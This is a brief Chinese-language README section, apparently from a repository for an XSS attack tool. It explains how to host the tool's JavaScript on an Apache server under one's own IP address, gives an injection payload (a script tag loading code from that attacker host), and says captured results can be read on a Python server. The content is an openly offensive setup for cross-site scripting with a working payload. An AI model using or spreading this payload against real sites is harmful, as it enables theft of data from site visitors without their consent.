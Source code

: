 ## XSS工具用法
将js下的文件夹保存到apache的目录下，然后修改其中js文件的ip地址为你的实际ip地址。
同时你的payload为：
```js
<script src="http://{你的ip地址}:{你的apache端口，一般为80可以不填写}/N"></script>
```
然后直接访问你的python服务器即可获取XSS攻击结果。

原理可以在这看到：https://www.cnblogs.com/9man/p/18292753
